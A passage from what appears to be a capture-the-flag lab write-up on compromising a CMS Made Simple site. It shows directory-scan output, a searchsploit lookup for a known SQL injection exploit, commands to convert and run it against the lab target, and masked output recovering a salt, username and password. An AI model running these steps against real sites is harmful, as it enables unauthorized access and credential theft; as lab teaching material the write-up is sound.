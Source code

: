 ```
[18:09:09] 403 -  301B  - /.htaccessOLD2
[18:09:09] 403 -  292B  - /.htm                                            
[18:09:09] 403 -  293B  - /.html
[18:09:09] 403 -  302B  - /.htpasswd_test
[18:09:09] 403 -  298B  - /.htpasswds
[18:09:09] 403 -  299B  - /.httr-oauth
[18:09:12] 403 -  292B  - /.php                                            
[18:10:12] 200 -   11KB - /index.html                                       
[18:10:34] 200 -  929B  - /robots.txt                                       
[18:10:35] 403 -  301B  - /server-status                                    
[18:10:35] 403 -  302B  - /server-status/                                   
**[18:10:37] 301 -  315B  - /simple  ->  <http://10.10.138.218/simple/**>         
                                                                             
Task Completed

```
```

Find CVE: `searchsploit ‘CMS Made Simple’`

```
<pre class="wp-block-code">```
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/*****.py

```
```

Find local CVE file: `locate 'php/webapps/*****.py'`

```
<pre class="wp-block-code">```
/usr/share/exploitdb/exploits/php/webapps/*****.py

```
```

[🔗 CVE](https://www.exploit-db.com/exploits/46635)

Using CVE:

- Ran `sudo apt install 2to3` – exploit written in `python2` has missing modules.
- `2to3 *****.py`, `python *****.py -u http://<ip>/simple` Note, tried multiple times and then randomly worked… didn’t change anything, ghost in shell moment.
- Also, took two attempts to get correct salt and hash, third attempt again produced different set.

```
<pre class="wp-block-code">```
[+] Salt for password found: *****
[+] Username found: *****
[+] Email found: *****
[+] Password found: *****

```
```
